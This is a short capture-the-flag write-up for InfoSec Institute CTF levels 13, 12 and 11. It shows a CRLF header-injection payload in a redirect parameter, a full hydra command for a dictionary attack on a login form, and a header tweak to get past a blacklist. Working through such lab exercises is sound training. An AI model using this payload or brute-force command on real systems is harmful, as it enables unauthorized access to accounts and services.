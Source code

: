 # InfoSecInstituteCTF
I wanted to go from the hardest but anyway the order is mixed

# Level13
Try adding a remote URL in the appropriate GET parameter

It's pretty strange that level13 leads to ex13-task.php, while others lead to ex#.php :)
Lets visit exp13.php
"Get a Hint"

Lets try few tricks :


http://ctf.infosecinstitute.com/ctf2/exercises/ex13-task.php?redirect=test


Nothing


http://ctf.infosecinstitute.com/ctf2/exercises/ex13.php?redirect=test


Bingo :)
Now we have to inject the header :


http://ctf.infosecinstitute.com/ctf2/exercises/ex13.php?redirect=%0d%0a%20CostumHeader:INJECTED



# Level12


This was a very easy one, dictionary attack on POST request, lets hit hydra :)


https://i.imgur.com/pzbvkWd.png


Command:


hydra ctf.infosecinstitute.com http-form-post"/ctf2/exercises/ex12.php:username=^USER^&password=^PASS^&logIn=Login:combination" -L users.txt -P password.txt -t 10 -w 30 -o hydra-http-post-attack.txt



# Level11

This is getting easier and easier, We've been blacklisted, and hint says it all.

Check the header, change no to yes, and that is it :)


